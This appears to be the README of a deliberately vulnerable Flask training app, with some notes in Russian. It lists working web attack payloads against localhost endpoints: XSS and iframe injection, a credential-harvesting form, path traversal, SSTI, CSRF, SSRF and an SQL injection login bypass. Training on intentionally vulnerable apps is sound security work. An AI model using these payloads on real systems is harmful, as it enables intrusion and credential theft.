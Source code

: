 # Description:
FVA Flask Vulnerable Application was developed for the purpose of learning. 

# TODO:
* сделать заглушки в случае невалидных логина или пароля или необходиомсти аутентификации
* csrf добавить подключение к БД psql

# Vulnerabilities 
### XSS + Iframe injection
```html
http://localhost:8888/xss?param=<script>alert(1)</script>

<img src=https://stackoverflow.com/ onerror=alert(1)>

<script>alert(document.domain)</script>

<a href="javascript:alert(document.domain);">click here</a>

<iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>

<iframe src="http://httpforever.com/></iframe>

<form name="login" action="http://ip: port/">
 	<label for="login">login: </label>
 	<input type="text" name="login" required>
 	<br>
 	<label for="password">password: </label>
 	<input type="password" name="password" required>
 	<br>
 	<input type="submit" value="Login!">
 </form>

<script>
window.addEventListener('load', function() {
    var sw = "/sw.js";
    navigator.serviceWorker.register(sw, {scope: '/'})
       .then(function(registration) {
            console.log('Service Worker registered successfully');
        })
       .catch(function(err) {
            console.error('Service Worker registration failed:', err);
        });
});
</script>
```

# PATH TRAVERSAL
открыть код и найти каким образом идет обращение к картинке
'view-source:http://localhost:8888/path_travers'
'<img src="/path_travers_img/?img=/static/scripting.png" alt="what_is_that" width="100" height="100"></p>'

exploit
```URL
http://localhost:8888/path-travers-img/?img=/static/scripting.png
http://localhost:8888/path_travers_img/?img=/README.md
http://localhost:8888/path_travers_img/?img=/../venv.txt
```

# SSTI 
exploit
```URL
http://localhost:8888/ssti?param={{(9*9)}}
http://localhost:8888/ssti?param={{%20config.items()%20}}
```

# XSS via Service worker
/upload

PoC upload sw.js
```js
setInterval(function() {
  console.log("U been h@cked");
}, 5000);
```

# CSRF
/csrf через другую вкладку
python3 -m http.server 9000
Фишинговая ссылка hacker_csrf.html
http://127.0.0.1:9000/Projects/FVA/hacker_csrf.html

/csrf через GET
http://localhost:8888/change_password?id=1&new_password=h@cked

# SSRF
GET request: 
http://localhost:8888/ssrf?url=http://localhost:8888/xss

POST request: 
curl -X POST -d "url=http://localhost:8888/xss" http://localhost:8888/ssrf


# SQl injection
brew services start postgresql
psgl postgres
python init_db.py from modules.init_db import create_database
=# \dt
=# SELECT * FROM users;

injection 
login: ' OR 1=1; --
password: any

# command_injection
/go to command_injection
change cookie to admin > base64

# CORS test
python -m http.server 8000
devtools > console:
fetch('http://localhost:8888/api/users')
  .then(response => response.text())
  .then(data => console.log(data))
  .catch(error => console.error('Error:', error));

  
